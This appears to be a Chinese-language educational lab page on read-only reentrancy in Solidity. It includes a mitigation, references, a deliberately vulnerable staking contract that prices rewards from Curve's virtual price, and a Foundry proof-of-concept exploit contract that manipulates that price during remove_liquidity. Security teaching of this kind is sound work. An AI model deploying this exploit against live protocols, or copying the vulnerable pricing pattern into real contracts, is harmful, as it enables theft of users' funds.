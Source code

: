 # 只读可重入  
[ReadOnlyReentrancy.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/ReadOnlyReentrancy.sol)  
**名称：** 只读可重入性漏洞  
**描述：**  
只读重入性漏洞是智能合约设计的一个缺陷，这允许攻击者利用函数的“只读”特性对合约的状态进行意外的更改。  
具体来说，当攻击者通过ICurve合约的remove_liquidity函数触发ExploitContract中的receive函数时，就会出现这种漏洞。这是通过一个安全的智能合约“A”的外部调用实现的，该调用会调用攻击者合约的fallback()函数。  
通过这种攻击方式，攻击者获得了在fallback()函数中执行代码的能力，针对与合约“A”间接相关的合约“B”。合约“B”从合约“A”中获取出LP代币的价格，因此容易受到重入攻击的影响，导致价格被操纵和意外更改。  

**解决方法：**  
避免在只读函数中进行任何的状态修改操作。  
**Makerdao 示例：**  
```
// 如果在状态修改pool函数执行期间被调用，这将被回滚。
if (nonreentrant) {
uint256[2] calldata amounts;
CurvePoolLike(pool).remove_liquidity(0, amounts);
}
```
**参考**  
https://twitter.com/1nf0s3cpt/status/1590622114834706432  
https://chainsecurity.com/heartbreaks-curve-lp-oracles/  
https://medium.com/@zokyo.io/read-only-reentrancy-attacks-understanding-the-threat-to-your-smart-contracts-99444c0a7334  
https://www.youtube.com/watch?v=0fgGTRlsDxI  


**VlunContract:**  
```
contract VulnContract {
    IERC20 public constant token = IERC20(LP_TOKEN);
    ICurve private constant pool = ICurve(STETH_POOL);

    mapping(address => uint) public balanceOf;

    function stake(uint amount) external {
        token.transferFrom(msg.sender, address(this), amount);
        balanceOf[msg.sender] += amount;
    }

    function unstake(uint amount) external {
        balanceOf[msg.sender] -= amount;
        token.transfer(msg.sender, amount);
    }

    function getReward() external view returns (uint) {
        //根据池子LP代币的当前虚拟价格进行奖励代币
        uint reward = (balanceOf[msg.sender] * pool.get_virtual_price()) /
            1 ether;
        // 省略用于转移奖励代币的代码
        return reward;
    }
}
```  
**如何测试：**  
forge test --contracts src/test/ReadOnlyReentrancy.sol -vvvv  
```
// 测试VulnContract合约中只读重入漏洞的函数
function testPwn() public {
    // 通过漏洞合约将10个ether质押到VulnContract合约
    hack.stakeTokens{value: 10 ether}(); 
    // 对VulnContract合约执行只读重入攻击
    hack.performReadOnlyReentrnacy{value: 100000 ether}();
}

// 用于利用 VulnContract 中只读重入漏洞的合约
contract ExploitContract {
    //与ICurve和IERC20合约交互的接口
    ICurve private constant pool = ICurve(STETH_POOL);
    IERC20 public constant lpToken = IERC20(LP_TOKEN);
    // 待攻击的VulnContract合约
    VulnContract private immutable target;

    // 构造函数用于初始化被攻击的VulnContract合约
    constructor(address _target) {
        target = VulnContract(_target);
    }

    // 质押LP代币到VulnContract合约的函数
    function stakeTokens() external payable {
        // 作为流动性添加到Curve池中的金额
        uint[2] memory amounts = [msg.value, 0];
        // 向Curve池子添加流动性并且接受LP代币作为奖励
        uint lp = pool.add_liquidity{value: msg.value}(amounts, 1);
        // 记录添加流动性后的LP代币的价格
        console.log(
            "LP token price after staking into VulnContract",
            pool.get_virtual_price()
        );
        // 授权VulnContract合约可以代表当前合约花费LP代币
        lpToken.approve(address(target), lp);
        // 将LP代币质押到VulnContract合约中
        target.stake(lp);
    }

    // 对VulnContract合约进行只读重入攻击的函数
    function performReadOnlyReentrnacy() external payable {
        // 作为流动性添加到Curve池中的金额
        uint[2] memory amounts = [msg.value, 0];
        // 向Curve池子添加流动性并且接受LP代币作为奖励
        uint lp = pool.add_liquidity{value: msg.value}(amounts, 1);
        // 记录移除流动性前LP代币的价格
        console.log(
            "LP token price before remove_liquidity()",
            pool.get_virtual_price()
        );
        // 移除流动性时应当接收的最小代币数量
        uint[2] memory min_amounts = [uint(0), uint(0)];
        // 从Curve池子中移除流动性，这将触发receive函数
        pool.remove_liquidity(lp, min_amounts);
        // 记录移除流动性后LP代币的价格
        console.log(
            "--------------------------------------------------------------------"
        );
        console.log(
            "LP token price after remove_liquidity()",
            pool.get_virtual_price()
        );
        // 记录将从VulnContract收到的奖励金额
        uint reward = target.getReward();
        console.log("Reward if Read-Only Reentrancy is not invoked: ", reward);
    }

    //从Curve池中移除流动性时将触发的回退函数
    receive() external payable {
        // 记录在移除流动性期间的LP代币价格
        console.log(
            "--------------------------------------------------------------------"
        );
        console.log(
            "LP token price during remove_liquidity()",
            pool.get_virtual_price()
        );
        // 记录在触发只读重入攻击的情况下可以获得的奖励
        uint reward = target.getReward();
        console.log("Reward if Read-Only Reentrancy is invoked: ", reward);
    }
}
```  
**红色框：** 攻击成功，价格被操控  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Ff974125e-47d0-42ca-89bc-1d9ef7608094%2FUntitled.png?table=block&id=db05153a-1fed-46f6-91fe-6a1caae5e036&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)

![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fc578eed0-e82d-4179-8cd2-75c3e921fdf9%2FUntitled.png?table=block&id=a9136681-055a-42b9-80e0-4f2b2ebbe0d8&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)